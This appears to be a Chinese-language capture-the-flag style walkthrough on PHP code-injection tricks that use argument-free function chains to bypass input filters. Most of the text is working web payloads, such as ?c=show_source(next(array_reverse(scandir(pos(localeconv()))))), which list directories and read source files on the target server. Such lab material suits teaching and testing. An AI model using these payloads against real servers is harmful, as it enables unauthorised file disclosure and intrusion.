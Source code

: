 ```

prev() 将数组中的内部指针倒回一位

reset() ： 将内部指针指向数组中的第一个元素，并输出


highlight_file(array_rand(array_flip(scandir(getcwd())))); //查看和读取当前目录文件
print_r(scandir(dirname(getcwd()))); //查看上一级目录的文件
print_r(scandir(next(scandir(getcwd()))));  //查看上一级目录的文件
show_source(array_rand(array_flip(scandir(dirname(chdir(dirname(getcwd()))))))); //读取上级目录文件
show_source(array_rand(array_flip(scandir(chr(ord(hebrevc(crypt(chdir(next(scandir(getcwd())))))))))));//读取上级目录文件
show_source(array_rand(array_flip(scandir(chr(ord(hebrevc(crypt(chdir(next(scandir(chr(ord(hebrevc(crypt(phpversion())))))))))))))));//读取上级目录文件

```

我们先打印当前目录下的文件

```
?c=print_r(scandir(current(localeconv())));

相当于ls

```

![image-20231216123441459](image/image-20231216123441459.png)

读取目录文件后，发现输出的是数组，而文件名是数组中的值，下一步我们需要取出想要读取文件的数组

构建命令

```
/?c=show_source(next(array_reverse(scandir(pos(localeconv())))));
```
